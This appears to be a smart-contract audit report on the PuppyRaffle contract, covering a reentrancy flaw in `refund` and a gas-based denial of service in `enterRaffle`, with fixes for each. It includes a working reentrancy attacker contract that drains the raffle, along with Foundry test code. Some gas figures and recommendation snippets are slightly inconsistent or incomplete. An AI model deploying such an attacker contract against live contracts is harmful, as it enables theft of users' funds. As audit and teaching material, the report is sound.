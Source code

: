 # Findings
## High Severity
### [H-1] Not fulfilling CEI pattern in `PuppyRaffle::refund` function allows Reentrancy, withdrawing balance repeatedly from `PuppyRaffle` contract.

**Severity**: 
- Impact: High
- Likelihood: High

**Description**: In `PuppyRaffle::refund`, there is check-interact-effect, which does not fulfill the CEI pattern. If an attacker contract set it's own `fallback` or `receive` function to enter `refund` function, it can re-enter the `refund` because the interaction statement `payable(msg.sender).sendValue(entranceFee);` is executed before the effect statement `players[playerIndex] = address(0);`.
```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(
        playerAddress == msg.sender,
        "PuppyRaffle: Only the player can refund"
    );
    require(
        playerAddress != address(0),
        "PuppyRaffle: Player already refunded, or is not active"
    );

    payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```
**Impact**: The attacker contract can re-enter the `refund` repeatedly until the balance of `PuppyRaffle` gets smaller than `PuppyRaffle::entranceFee`, and steals almost of balance.

**PoC**: The `RaffleReentrancy` contract has `fallback` and `receive` function to call `PuppyRaffle::refund`. If `RaffleReentrancy::attack` is called, you might see `RaffleReentrancy` steal all balance of `PuppyRaffle`.

<details>
<summary>code</summary>

Place the following test into `test/PuppyRaffleTest.t.sol`.
1. Add `testRefundReentrancy` into the `PuppyRaffleTest`.
```solidity
function testRefundReentrancy() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
    address attacker = address(99);
    vm.deal(attacker, 10 ether);
    vm.prank(attacker);
    RaffleReentrancy attackContract = new RaffleReentrancy{
        value: entranceFee
    }(attacker, puppyRaffle, entranceFee);
    uint balanceAttackContractBefore = address(attackContract).balance;
    uint balanceRaffleBefore = address(puppyRaffle).balance;
    attackContract.attack();
    uint balanceAttackContractAfter = address(attackContract).balance;
    uint balanceRaffleAfter = address(puppyRaffle).balance;
    console.log(
        "balance of AttackContract before: %s, after: %s",
        balanceAttackContractBefore,
        balanceAttackContractAfter
    );
    console.log(
        "balance of Raffle before: %s, after: %s",
        balanceRaffleBefore,
        balanceRaffleAfter
    );
}
```
1. Add `RaffleReentrancy` outside.
```solidity
contract RaffleReentrancy {
    address owner;
    PuppyRaffle public raffle;
    uint public entranceFee;
    uint public index;

    constructor(
        address _owner,
        PuppyRaffle _raffle,
        uint _entranceFee
    ) payable {
        owner = _owner;
        raffle = _raffle;
        entranceFee = _entranceFee;
        index = 0;
    }

    function attack() public {
        address ownAddr = address(this);
        address[] memory player = new address[](1);
        player[0] = ownAddr;
        raffle.enterRaffle{value: entranceFee}(player);
        index = raffle.getActivePlayerIndex(ownAddr);
        raffle.refund(index);
    }

    function _callRefund() private {
        if (address(raffle).balance >= entranceFee) {
            raffle.refund(index);
        }
    }

    function withdraw(uint amount) public {
        require(msg.sender == owner);
        payable(owner).transfer(amount);
    }

    fallback() external payable {
        _callRefund();
    }

    receive() external payable {
        _callRefund();
    }
}
```
</details>

**Recommendation**:
1. Use CEI pattern. Move Interacting statements below the Effecting statements.
   ```diff
   -payable(msg.sender).sendValue(entranceFee);
   players[playerIndex] = address(0);
   +payable(msg.sender).sendValue(entranceFee);
   ```

2. Use a boolean lock variable, which is set to be `true` in entering, to be `false` in the end of `refund`.
3. Use `ReentrancyGuard` by Openzeppelin.


## Medium Severity
### [M-1] Unbounded for-loop checking duplicates in `PuppyRaffle::enterRaffle` is a potential DoS attack, incrementing gas costs for future entrants

**Severity**: 
- Impact: Medium
- Likelihood: Medium
 
**Description**:
In `PuppyRaffle::enterRaffle`, there is a nested for-loop with O(n^2) time-complexity to check duplicates in users entered raffle.
```solidity
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(
            players[i] != players[j],
            "PuppyRaffle: Duplicate player"
        );
    }
}
```
However, because the `enterRaffle` is just a payable function without constraints like ACLs, users can call it without any risk. 
```solidity
function enterRaffle(address[] memory newPlayers) public payable { 
    ...
}
```
So, the `players` array can be easily extended, the for-loop can be unbounded.

**Impact**:
This can cause **Denial-of-Service(DoS)** attack. If malicious users call `enterRaffle` with large `newPlayers` or call `enterRaffle` repeatedly, gas cost to run new `enterRaffle` become gradually expensive. Then new late users have to pay more gas to enter, or even cannot enter the raffle and malicious users will get all rewards.

**PoC**:
The first `enterRaffle` call pushs 1000 addresses, which cost `440181896` gas. However, the second call pushs only one address, it costs `417774202` gas, which is even more than first call. That gas amount is really huge amount itself, the worst is the more calls accumulated, the more gas needed, end with `revert`.
<details>
<summary><b>code</b></summary>

Place the following test into `test/PuppyRaffleTest.t.sol`.
```solidity
function testEnterRaffleDoS() public {
    uint gasBefore;
    uint gasAfter;
    address[] memory newOnePlayer = new address[](1);
    
    // 1. Entering only one new user
    newOnePlayer[0] = address(99999);
    gasBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee}(newOnePlayer);
    gasAfter = gasleft();
    console.log("1. Gas used:", gasBefore - gasAfter);

     // 2. Entering 1000 new users
    uint numberOfPlayers = 1000;
    address[] memory players = new address[](numberOfPlayers);
    for (uint i = 0; i < numberOfPlayers; i++) {
        players[i] = address(i);
    }
    gasBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numberOfPlayers}(players);
    gasAfter = gasleft();
    console.log("2. Gas used:", gasBefore - gasAfter);

     // 3. Entering only one new user
    newOnePlayer[0] = address(9999);
    gasBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee}(newOnePlayer);
    gasAfter = gasleft();
    console.log("3. Gas used:", gasBefore - gasAfter);
}
```
Run test via `forge test --match-test testEnterRaffleDoS -vv`, then you can see the expected output:
```bash
Logs:
  1. Gas used: 61582
  2. Gas used: 440987844
  3. Gas used: 418609328
```

</details>


**Recommnedation**:
1. Consider allowing duplicates. Users can make new wallet address anyways, so duplicates check does not prevent the same person from entering multiple times, only the same wallet address.
2. Use **mappings** to remove unbouded for-loop checking duplicates, which cost only O(1) time-complexity.
    - State variable change: 
        ```solidity
        mapping(address => bool) public s_hasEntered;
        address[] public players; // Still need this for iteration if players need to be listed
        ```
    - Function logic change:
        ```solidity
        function enterRaffle(address[] memory newPlayers) public payable {
            // ... (pre-checks for entranceFee, etc.)
            for (uint256 i = 0; i < newPlayers.length; i++) {
                address player = newPlayers[i];
                require(!s_hasEntered[player], "PuppyRaffle: Duplicate player");
                s_hasEntered[player] = true;
                players.push(player); // Only add to players if not duplicate
            }
        }
        ```

3. If any additional for-loop traversal in `players` is needed, consider to make limitations of users in one raffle round and check before pushing new user.
    - Variable change:
        ```solidity
            uint maxPlayersInRound;
        ```
    - Function logic change:
        ```solidity
        function enterRaffle(address[] memory newPlayers) public payable {
            // ... (pre-checks for entranceFee, etc.)
            for (uint256 i = 0; i < newPlayers.length; i++) {
                // ... (checks for duplication, etc.)
                require(players.length <= maxPlayersInRound, "PuppyRaffle: max players in round")
                s_hasEntered[player] = true;
                players.push(player);
            }
        }
        ```

4. Use EnumerableSet in OpenZeppelin. Follow [link](https://docs.openzeppelin.com/contracts/5.x/api/utils#EnumerableSet).